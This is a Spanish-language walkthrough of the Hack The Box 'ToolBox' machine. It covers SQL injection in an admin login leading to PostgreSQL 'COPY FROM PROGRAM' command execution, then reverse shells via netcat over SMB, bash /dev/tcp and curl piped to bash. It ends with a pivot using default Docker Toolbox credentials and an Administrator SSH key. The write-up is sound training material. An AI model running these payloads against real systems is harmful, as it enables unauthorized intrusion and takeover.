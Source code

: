 ```yaml
---
title : Máquina|TOOLBOX|HTB|POSTGRESTSqlRCE|PIVOTING
published : True
---
```


<div class="contenedor imgc">
    <img class="imgc" src="imgs/ToolBox/ToolBox0.png" style="border-radius: 150px; width: 169px" alt="ToolBox logo">
    <div> 
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Fácil </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://app.hackthebox.com/machines/339" style="color: lightblue;">Tool Box</a></p>
    </div>
</div>

<h2><font color="white"><center> # Tool Box</center></font></h2>

* Empezamos tirando una traza ICMP, y vemos que nos enfrentamos  a una maquina Linux.

<img src="imgs/ToolBox/ToolBox1.png">

* Posteriormente empezamos con la enumeración de servicio y version que corren bajo los puertos de esta maquina, como cosas relevantes: 
<center>[Ftp]21: docker-toolbox.exe</center>

<img src="imgs/ToolBox/ToolBox2.png">

* Vemos de que se trata el recurso compartido por ftp llamado docker-toolbox.exe empleando una session como anonymous.

<img src="imgs/ToolBox/ToolBox6.png">

* Empezamos conectarnos con openssl para ver la firma de certificado ssl, y nos encontramos con subdominios bajo esta maquina.
<center>admin.megalogistic.com</center>
<center>megalogistic.com</center>

<img src="imgs/ToolBox/ToolBox3.png">


* Procedemos a agregarlos en el /etc/hosts paraopenssl que apunte a la dirección IP de la maquina.

<img src="imgs/ToolBox/ToolBox4.png">

* Vemos mas información que nos puede listar crackmapexec.
<center>Maquina:   Windows</center>
<center>Arquitectura: 64 bts</center>
<center>Nombre: TOOLBOX </center>
<img src="imgs/ToolBox/ToolBox5.png">

* Se puede observer que le panel de login de admin.megalogistic.com es vulnerables a un ataque de inyección Sql

<img src="imgs/ToolBox/ToolBox7.png">

* Empezamos a usar Burpsuite para ver el trafico de salida y respuesta por parte del servidor.
<center>Win + r : Enviar al Repeter</center>

<img src="imgs/ToolBox/ToolBox8.png">


* Investigamos acerca de como inyectar código arbitrario para ello.

* Eliminación de tabla en el caso de que sea existente.

```sql
DROP TABLE IF EXIST cmd_exec;
```

* Creación de la tabla para la inyección de comando arbitrarios.

```sql
 CREATE TABLE cmd_exec(cmd_output text);
```

* Inyección de comandos

```sql
 COPY cmd_exec from PROGRAM 'whoami';
```

* Empezamos con la creación de la tabla.

<img src="imgs/ToolBox/ToolBox10.png">

* Empezamos con la ejecución del código para ello me comparto un recurso compartido por smb que va a tener el binario netcat para poder crearme una reverse Shell suponiendo que pues la maquina es windows.
<center>Creamos recurso un recurso compartido.</center>
<img src="imgs/ToolBox/ToolBox11.png">


* Procedemos a ponernos en escucha por el puerto 4445 y lanzamos la petición para ganar acceso pero vemos que no ganamos acceso al sistema.
<center>\\10.10.14.3\smbFolder\nc.exe+-e+10.10.14.3+4445</center>
<img src="imgs/ToolBox2/ToolBox20.png">

* No recibimos ninguna traza eso debe ser porque esta corriendo un contenedor de maquina Linux, procedemos a hacer una reverse shell en bash, y en vez de impacket-smbserver usamos python3 -m http.server para correrlo en el puerto 88.
<center>/bin/bash -c "bash -i >& /dev/tcp/10.10.14.3/4445 0>&1"</center>

* Nos creamos el archivo reverse y creamos un servicio con python para poder compartirlo.

<img src="imgs/ToolBox2/ToolBox21.png">

* Posteriormente lanzamos un curl a nuestra dirección IP/reverse\|bash y le damos a send, para poder ganar acceso al sistema.

<img src="imgs/ToolBox2/ToolBox22.png">

* Nos creamos una full tty interactiva para poder trabajar mas cómodo.

<img src="imgs/ToolBox2/ToolBox23.png">

* Exportamos las variables de entorno.

<img src="imgs/ToolBox2/ToolBox24.png">

* Ganamos acceso a un contenedor en esta caso el la dirección IP 172.17.0.2

<img src="imgs/ToolBox2/ToolBox25.png">

* Podemos convertirnos en root y poder ver la flag user.txt

<img src="imgs/ToolBox2/ToolBox212.png'>


* Como somos la maquina 2 es decir de la sobre 172.17.0.2 quiero pensar que también hay una maquina que corre bajo la dirección ip 172.17.0.2 que corre el servicio de docker-toolbox, verificamos que tiene el servicio ssh abierto.

<img src="imgs/ToolBox2/ToolBox26.png">

* Buscamos credenciales por defecto de este servicio.
<center>User: docker</center>
<center>Password: tcuser</center>

<img src="imgs/ToolBox2/ToolBox27.png">

* Nos conectamos por ssh.
<center>ssh docker@172.17.0.1</center>
<img src="imgs/ToolBox2/ToolBox28.png">

* Empezamos a enumerar el sistema, y en la ruta raíz del sistema encontramos cosas interesantes.

<center>/c/Users/Administrator/.ssh</center>
<img src="imgs/ToolBox2/ToolBox29.png">

* Procedemos a conectarnos por ssh a la maquina con el usuario: Administrator.

<img src="imgs/ToolBox2/ToolBox210.png">

* En este punto ya podríamos ver la flag de root.

<img src="imgs/ToolBox2/ToolBox211.png">

